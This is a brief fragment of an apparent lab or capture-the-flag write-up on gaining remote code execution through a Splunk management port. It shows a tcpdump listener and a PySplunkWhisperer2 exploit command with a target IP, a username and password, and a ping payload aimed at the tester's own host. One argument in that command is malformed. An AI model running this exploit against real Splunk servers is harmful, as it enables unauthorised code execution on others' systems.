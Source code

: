 - [Splunk LPE and Persistence](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence)

![](./IMG/62.png)

> So, I use the following payload to tried to ping my host to confirm the RCE works or not.
- Launched tcpdump to listen on tun0 interface
```
tcpdump -i tun0
```
- Launched exploit script
```
python PySplunkWhisperer2_remote.py --host 10.129.2.21 --port 8089 --lport 10.10.17/145 --lport 1338 --username shaun --password Guitar123 --payload 'ping -c 3 10.10.17.145'
```
